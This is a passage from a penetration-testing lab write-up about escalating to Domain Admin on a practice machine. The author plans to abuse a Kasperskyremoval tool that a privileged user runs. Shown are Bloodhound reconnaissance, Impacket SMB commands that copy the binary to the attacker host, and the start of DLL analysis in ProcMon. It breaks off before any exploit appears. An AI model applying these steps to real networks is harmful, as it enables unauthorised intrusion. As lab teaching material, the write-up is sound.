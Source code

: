 The `readme.txt` tells us that the AV tools are being disposed of, however it seems that the `cpowers` user will be running this executable a few more times before the dispose is initiated.

In a regular red-teaming context, we need to ensure that we move hastily upon seeing this. We may not know the timeframe when the `cpowers` user is going to execute values.
At the same time, this is a pen-testing lab, so I'm going to assume that there's a scheduled task running every now and then that will execute the file - just my logical thinking though.

Not only that, but if we take a look at `cpowers` in Bloodhound, we can see that they're part of the Domain Admins group for this domain.

![](/images/vulnlab/trusted-vl/i.jpg)

This means that if we compromise `cpowers`, we'll have full control over this domain controller.

Let's examine this file to see if there's anything we can do to escalate our privileges when `cpowers` runs it. Normally I'd just transfer it using a C2 or by using a simple Python server on the Windows machine, however it seems I was unable to find success when trying either of them. Instead we can stand up our own SMB server using Impacket's `smbserver` utility.

Kali - `impacket-smbserver smb share/ -smb2support`
WinRM - `copy KasperskyRemovalTool.exe \\10.8.0.173\smb\KasperskyRemovalTool.exe`

This should download the AV tool into our `share/` directory (that we might need to create locally before setting up the SMB server).

So this next part was where I got confused, as examining this with tools such as Ghidra didn't result in many finds. Usually when it comes to reverse engineering PE32 binaries, you'd want to look specifically at abnormal classes or functions or even DLLs that the binary uses that could be exploited. The only issue is that all of these binary functions for this file seem to be relatively normal or at least don't seem to be noteworthy enough to look into.

Looking into CVE's didn't seem to get me anywhere either, but it started to get a few gears working as to what we could potentially do. https://www.exploit-db.com/exploits/10484
While we know that the starting functions don't seem to be very important, what about the DLLs that are loaded while the file is running? Could these potentially be exploited?

I decided to use ProcMon for this, as we can look specifically at the DLLs that are being ran after we execute the file and while it is running.
Note that I was running my machine through a Kali Linux VM, so I'll need to transfer it to my local Windows 10 host in order to examine it with ProcMon.

# ProcMon Executable Reverse Engineering

There are alternatives to setting up ProcMon for Linux, however I was unable to get it working when I had tried it out initially. I'll still leave the link for it as provided here: https://github.com/Sysinternals/ProcMon-for-Linux?tab=readme-ov-file

![](/images/vulnlab/trusted-vl/j.jpg)

Before we run the file, we should make sure that we have the right filters set up since we'll get barraged with internal functions and files that the binary will use during runtime. Go to `Filter > Filter` (or just press `Ctrl + l`

On this screen, we can create filters to view only a section of processes and/or functions that interest us.

